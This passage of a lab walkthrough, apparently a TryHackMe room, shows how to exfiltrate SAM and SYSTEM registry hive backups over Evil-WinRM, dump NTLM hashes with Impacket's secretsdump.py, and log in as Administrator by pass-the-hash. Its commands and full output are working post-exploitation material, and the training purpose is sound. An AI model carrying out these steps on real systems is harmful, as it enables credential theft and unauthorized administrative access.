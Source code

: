 12. `download <FILENAME1>.bak` from the command line in our active WinRM session to download the backup file of the compromised Windows machine's **System** registry key from their system onto our Linux attack machine
```Bash
*Evil-WinRM* PS C:\> download SYSTEM.bak
Info: Downloading C:\\SYSTEM.bak to SYSTEM.bak

                                                             
Info: Download successful!
```
13. `download <FILENAME2>.bak` from the command line in our active WinRM session to download the backup file of the compromised Windows machine's **SAM** registry key from their system onto our Linux attack machine
```Bash
*Evil-WinRM* PS C:\> download SAM.bak
Info: Downloading C:\\SAM.bak to SAM.bak

                                                             
Info: Download successful!
```
14. `exit` from the command line in our active WinRM session to exit our current PowerShell session on our attack machine and terminate the connection
```Bash
*Evil-WinRM* PS C:\> exit

Info: Exiting with code 0

root@ip-10-10-72-227:~# 
```
15. `ls` from our Linux attack machine to display the files and directories that are in our current working directory onto our terminal, which showed that the two backup files were indeed successfully downloaded onto our machine
```Bash
root@ip-10-10-72-227:~# ls
Desktop    Instructions  Postman  SAM.bak  SYSTEM.bak         Tools
Downloads  Pictures      Rooms    Scripts  thinclient_drives  work
```
16. `python3.9 /opt/impacket/examples/secretsdump.py -sam {FILENAME2}.bak -system {FILENAME1}.bak LOCAL` from our Linux attack machine to dump the password hashes of all the users that are in the compromised machine from its SAM registry key that we backed up into a file into Impacket's **secretsdump.py** program (https://github.com/fortra/impacket/blob/master/examples/secretsdump.py), which was already installed on our AttackBox, using both backup files that we created on and retrieved from the compromised machine and output the results onto our terminal, which ended up outputting the compromised machine's administrator's password hash which we can then use to authenticate as the administrator when remotely connecting back to the compromised machine using WinRM
```Bash
root@ip-10-10-72-227:~# python3.9 /opt/impacket/examples/secretsdump.py -sam SAM.bak -system SYSTEM.bak LOCAL 
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
thmuser1:1008:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser2:1009:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser3:1010:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser0:1011:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser4:1013:aad3b435b51404eeaad3b435b51404ee:8767940d669d0eb618c15c11952472e5:::
[*] Cleaning up... 
```
17. `evil-winrm -i <TARGET IP> -u Administrator -H {PASSWORD HASH}` from our Linux attack machine to perform a Pass-the-Hash (PtH) attack on the compromised machine to log in as the Administrator using their password hash, which ended up working